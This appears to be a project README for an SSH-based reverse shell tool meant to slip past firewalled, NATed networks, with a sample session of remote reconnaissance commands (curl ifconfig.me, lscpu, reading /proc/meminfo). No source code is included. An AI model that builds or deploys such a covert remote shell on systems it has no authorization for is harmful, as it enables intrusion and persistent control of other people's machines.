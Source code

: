 Sometimes you get stuck with a secure environment where all the servers and end-clients are fully patched, updated and firewalled. Network firewall rules have been configured properly, and all internal clients are NATed to the Internet.
<br>
<br>

<b>main.py</b> - runs on the remote client, attempts to connect to server.py via ssh. After connection, a reverse shell is maintained.

<b>server.py</b> - accepts the incoming ssh connection and issues commands to the remote client.

<b>id_rsa</b> - use ssh-keygen to generate your own private key on the server

<b>poetry.lock</b> and <b>pyproject.toml</b> - Packager files for repl.it

<br>
<br>
/>>reset

Listening for connection...

Command Shell Open



/>>ls /usr/sbin | grep user

adduser
deluser
newusers
useradd
userdel
usermod

/>>python -V

Python 3.8.2

/>>curl ifconfig.me

35.223.251.99

/>> lscpu

neIntel

cpu family	: 6

model		: 63

model name	: Intel(R) Xeon(R) CPU @ 2.30GHz

stepping	: 0

microcode	: 0x1

cpu MHz		: 2299.998

cache size	: 46080 KB

physical id	: 0

siblings	: 4

core id		: 1

cpu cores	: 2

/>> cat /proc/meminfo

MemTotal:       26694668 kB

MemFree:        19898648 kB

MemAvailable:   23455560 kB

Buffers:          315700 kB
